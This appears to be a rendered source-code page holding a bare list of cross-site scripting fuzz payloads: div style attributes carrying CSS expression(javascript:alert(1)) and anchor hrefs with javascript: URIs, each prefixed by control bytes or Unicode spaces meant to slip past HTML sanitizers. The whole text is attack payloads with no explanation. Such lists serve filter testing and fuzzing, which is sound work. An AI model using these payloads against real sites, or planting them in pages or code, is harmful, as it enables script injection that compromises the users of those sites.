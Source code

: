 ABC&lt;div style="x:\xEF\xBB\xBFexpression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\x20expression(javascript:alert(1)"&gt;DEF
ABC&lt;div style="x:\xE2\x80\x88expression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\x00expression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\xE2\x80\x8Bexpression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\xE2\x80\x86expression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\xE2\x80\x85expression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\xE2\x80\x82expression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\x0Bexpression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\xE2\x80\x81expression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\xE2\x80\x83expression(javascript:alert(1)"&gt;DEF

ABC&lt;div style="x:\xE2\x80\x89expression(javascript:alert(1)"&gt;DEF

&lt;a href="\x0Bjavascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x0Fjavascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\xC2\xA0javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x05javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\xE1\xA0\x8Ejavascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x18javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x11javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\xE2\x80\x88javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\xE2\x80\x89javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\xE2\x80\x80javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x17javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x03javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x0Ejavascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x1Ajavascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x00javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x10javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\xE2\x80\x82javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x20javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x13javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;


&lt;a href="\x09javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\xE2\x80\x8Ajavascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;
